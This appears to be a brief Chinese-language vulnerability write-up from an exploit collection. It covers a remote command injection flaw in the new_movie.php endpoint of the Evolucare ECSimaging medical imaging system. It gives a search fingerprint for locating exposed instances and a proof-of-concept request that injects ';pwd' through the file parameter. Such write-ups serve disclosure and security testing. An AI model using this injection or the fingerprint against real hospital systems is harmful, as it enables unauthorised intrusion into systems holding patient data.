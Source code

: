 # 

# Evolucare Ecsimaging new_movie.php 远程命令执行漏洞

## 漏洞描述

EVOLUCARE ECSimage是一款国外使用的医疗管理系统，研究发现其new_movie.php接口中存在命令注入漏洞,攻击者可利用该漏洞获取系统敏感信息等.

## 漏洞影响

```
EVOLUCARE Evolucare Ecsimaging 版本< 6.21.5
```

## 网络测绘

```
body="ECSimaging"
```

## 漏洞复现

登录页面

![](./images/202205241447357.png)

验证POC

```
/new_movie.php?studyUID=1&start=2&end=2&file=1;pwd
```

![](./images/202205241447391.png)

